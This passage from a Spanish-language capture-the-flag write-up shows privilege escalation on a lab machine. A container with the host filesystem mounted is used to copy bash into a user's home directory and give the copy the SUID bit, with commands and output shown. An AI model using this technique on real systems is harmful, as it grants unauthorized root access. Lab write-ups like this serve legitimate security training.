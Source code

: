 Como mencioné antes, cualquier cambio que hagamos aquí, se verá reflejado afuera del contenedor.

Entonces, podemos utilizar varias formas para escalar privilegios, por ejemplo, cambiando la contraseña del **Root** modificando el `/etc/passwd`, dándole **permisos SUID** a la **Bash**, etc.

Hagamos esto último.

Revisemos primero qué permisos tiene la **Bash** afuera del contenedor:
```bash
juan@TheHackersLabs-CanYouHackMe:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 mar 31  2024 /bin/bash
```

Creemos el contenedor de nuevo y asignemosle **permisos SUID** a la **Bash**:
```bash
root@a5fe8376ab31:/# chmod u+s bin/bash
chmod: changing permissions of 'bin/bash': Read-only file system
```
Parece que no está aplicando el cambio, esto porque el sistema de archivos donde está `/bin/bash` está montado como de solo lectura.

Entonces, vamos a copiar la **Bash** en el directorio del **usuario juan**:
```bash
root@a5fe8376ab31:/# cp bin/bash /home/juan/
root@a5fe8376ab31:/# ls -la /home/juan/
total 4436
drwxr-x--- 6 juan juan    4096 Jun 18 21:49 .
drwxr-xr-x 3 root root    4096 Sep  7  2024 ..
-rw------- 1 juan juan     385 Jun 18 21:50 .bash_history
-rw-r--r-- 1 juan juan     220 Sep  7  2024 .bash_logout
-rw-r--r-- 1 juan juan    3846 Sep  7  2024 .bashrc
drwx------ 2 juan juan    4096 Sep  7  2024 .cache
drwx------ 3 juan juan    4096 Jun 18 18:05 .gnupg
drwxrwxr-x 3 juan juan    4096 Sep  7  2024 .local
-rw-r--r-- 1 juan juan     807 Sep  7  2024 .profile
-rwxr-xr-x 1 root root 1396520 Jun 18 21:51 bash
drwx------ 3 juan juan    4096 Sep  7  2024 snap
```

Ahora, démosle **permisos SUID** a esa copia:
```bash
root@a5fe8376ab31:/# chmod u+s /home/juan/bash
root@a5fe8376ab31:/# ls -la /home/juan/bash
-rwsr-xr-x 1 root root 1396520 Jun 18 21:51 /home/juan/bash
```
Muy bien.

Salgamos del contenedor y deberíamos tener la **Bash** con los **permisos SUID**:
```bash
juan@TheHackersLabs-CanYouHackMe:~$ ls -la
total 4436
drwxr-x--- 6 juan juan    4096 jun 18 21:49 .
drwxr-xr-x 3 root root    4096 sep  7  2024 ..
-rwsr-xr-x 1 root root 1396520 jun 18 21:51 bash
...
```
